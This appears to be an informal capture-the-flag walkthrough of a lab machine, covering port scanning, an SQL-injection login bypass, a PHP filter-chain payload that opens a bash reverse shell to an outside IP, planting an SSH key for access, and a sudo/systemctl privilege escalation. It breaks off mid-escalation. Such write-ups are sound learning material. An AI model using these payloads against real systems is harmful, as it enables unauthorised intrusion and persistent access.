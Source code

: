
i used nmap to discover open ports and after i found there is all ports open.
but i used 22,80 ports to discover flags.

tools i used and for what-
1. nmap :- scan ports and get info
2. php-chain-generator-py from github :- i used to make payload for it
3. xxd :- not a tool some kind a trick i think

# STEP 1

i used nmap to scan target ip and then i saw every ports opened.so i use only 80,22 to attack

# STEP 2

next i found login page in port 80 running web server and i tried basic payloads to enter without password.. this one works

```
' ||'1'='1';-- -
```

so i enter there and saw the version of apache httpd and i found it may vulnerable.i did small research to find anything usefull and i found php generator python program.
 
# STEP 3

using the python program i made a payload and i copied it and paste after `php?file=` .and send it and i made listener to catch the web shell using net cat.


 `python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.17.12.215/4444 0>&1\"'); ?>" | grep "^php" > payload.txt`

```
nc -lvnp 4444
```

and yeah i got shell. but i cant read user flag.
i found /etc/comte/.ssh/... file is readable using echo command.

so i replaced key with my ssh pub key.and then using it i loging ssh comte@ by without password

and then i reade user text file the first flag where was. 

# STEP 4

ssh privilege exultation.

i used sudo -l to see what i can do without root privileges. 


i found 
`systemctl restart exploit.time`
and some other files

i using nano did small changes to file that and run it..i found there xxd.

so i went to that directory and ran commands

